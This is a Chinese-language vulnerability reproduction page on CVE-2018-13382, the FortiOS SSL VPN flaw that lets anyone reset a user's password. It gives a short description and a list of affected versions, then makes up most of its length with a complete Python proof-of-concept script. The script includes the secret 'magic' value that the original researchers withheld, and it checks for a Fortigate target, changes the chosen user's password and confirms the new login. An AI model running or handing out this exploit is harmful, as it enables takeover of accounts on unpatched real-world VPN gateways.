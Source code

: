 # （CVE-2018-13382）Fortinet FortiOS magic后门

> 原文：[https://www.zhihuifly.com/t/topic/2948](https://www.zhihuifly.com/t/topic/2948)

# （CVE-2018-13382）Fortinet FortiOS magic后门

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本 、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

## 三、复现过程

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![image](img/9a5b0e2e151d1fcdc36b7a30b92f5cb8.png)

根据我们的调查，仍有大量的Fortigate SSL VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw) reversed & exploited by our colleagues [@niph_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and [@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch your [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw) asap and see the [#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw) talk of [@orange_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw) and [@mehqq_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for details (tnx guys for the teaser that got us started) [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
> 
> — Code White GmbH (@codewhitesec) [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

```
$ python CVE-2018-13382.py  -h
Usage: CVE-2018-13382.py [options]

Options:

-h, --help   show this help message and exit

-i IP        e.g. 127.0.0.1:10443

-u USERNAME

-p PASSWORD 
```

```
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True

userAgent=generate_user_agent()
username=""
newpassword=""
ip=""

def setColor(message, bold=False, color=None, onColor=None):
	from termcolor import colored, cprint
	retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
	return retVal

def checkIP(ip):
	try:
		url = "https://"+ip+"/remote/login?lang=en"
		headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
		r=requests.get(url, headers=headers, verify=False)
		if r.status_code==200 and "<title>Please Login</title>" in r.text:
			return True
		else:
			return False
	except requests.exceptions.ConnectionError as e:
		print e
		return False

def changePassword(ip,username,newpassword):
	url = "https://"+ip+"/remote/logincheck"
	headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
	data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
	r=requests.post(url, headers=headers, data=data, verify=False)
	if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
		return True
	else:
		return False

def testLogin(ip,username,newpassword):
	url = "https://"+ip+"/remote/logincheck"
	headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
	data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
	r=requests.post(url, headers=headers, data=data, verify=False)
	if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
			return True
	else:
		return False

parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
	print "[!] Please provide the ip (-i), username (-u) and password (-p)"
	sys.exit()
if options.username:
	username=options.username
if options.password:
	newpassword=options.password
if options.ip:
	ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
	print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
	if changePassword(ip,username,newpassword)==True:
		print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")	
		if testLogin(ip,username,newpassword)==True:
			print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
			print "************** Enjoy your new credentials **************\n"
		else:
			print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
	else:
		print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")			
else:
	print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red") 
```